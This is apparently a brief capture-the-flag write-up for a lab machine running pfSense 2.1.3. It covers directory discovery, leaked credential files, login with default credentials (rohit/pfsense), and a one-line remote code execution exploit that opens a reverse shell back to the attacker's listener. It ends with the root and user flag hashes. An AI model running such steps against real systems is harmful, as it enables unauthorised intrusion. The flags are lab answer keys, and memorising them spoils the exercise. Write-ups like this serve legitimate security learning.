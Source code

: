 # 10.10.10.60 - sense
## Port 80 and 443 open
- Port 80 seems to redirect to https
- Gobuster reveals a large amount of information

### /changelog.txt
```
# Security Changelog 

### Issue
There was a failure in updating the firewall. Manual patching is therefore required

### Mitigated
2 of 3 vulnerabilities have been patched.

### Timeline
The remaining patches will be installed during the next maintenance window
```
- *updated 2 of 3 vulns*
### /tree 
- Details about the service running --> SilverStripe
- Possible user: Sam Minnee
- Version tree control is v0.1 - Oct 30th 2005

### /system-users.txt
```
####Support ticket###

Please create the following user


username: Rohit
password: company defaults
```

## The service running is pfsense as per the soruce code
### username: rohit 
### password: pfsense

verion 2.1.3 free bsd

- Remote code execution exploit exists for this specific version

#### how to run it 
```

./code-execution --rhost 10.10.10.60 --lhost 10.10.14.4 --lport 1985 --username rohit --password pfsense

```

## Easy win

# cat root.txt
d08c32a5d4f8c8b10e76eb51a69f1a86


# cat user.txt
8721327cc232073b40d27d9c17e7348b


